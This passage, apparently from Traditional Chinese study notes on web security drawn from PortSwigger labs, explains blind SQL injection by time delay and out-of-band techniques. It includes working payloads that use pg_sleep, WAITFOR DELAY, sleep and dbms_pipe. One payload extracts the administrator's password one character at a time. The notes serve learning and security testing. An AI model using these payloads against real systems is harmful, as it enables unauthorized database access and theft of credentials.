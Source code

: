 * MySQL
```
SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')
```
### 觸發時間延遲
#### 情境
* 這次的情境是，我們進行觸發 SQL 錯誤，但結果沒有什麼變化，開發人員有處理錯誤訊息。因此我們透過觸發時間延遲，注入成功的話，網站將會根據我們設定的延遲時間來延遲回應，來辨別注入的結果是 True 或 False。
#### 作法
* 透過 `SELECT CASE WHEN (條件)`，來決定是否觸發延遲 (`pg_sleep(10)`) ，來觸發回應時間延遲，進一步得知注入的結果是 True 或 False。
```
xyz'%3b SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END
```
#### 取得密碼
* 與之前做法相同，修改 `SUBSTRING(password, 1, 1)='a'`，將密碼一個一個字拚湊出來。
```
xyz'%3b SELECT CASE WHEN ((SELECT COUNT(username) FROM users WHERE username = 'administrator' AND SUBSTRING(password, 1, 1)='a')=1) THEN pg_sleep(10) ELSE pg_sleep(0) END
```
#### cheat-sheet
* Oracle
```
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual
```
* Microsoft
```
IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'
```
* PostgreSQL
```
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END
```
* MySQL
```
SELECT IF(YOUR-CONDITION-HERE,sleep(10),'a')
```
### out-of-band (OAST) 技術
## 參考資料
* [portswigger sqli cheat-sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
###### tags: `web security`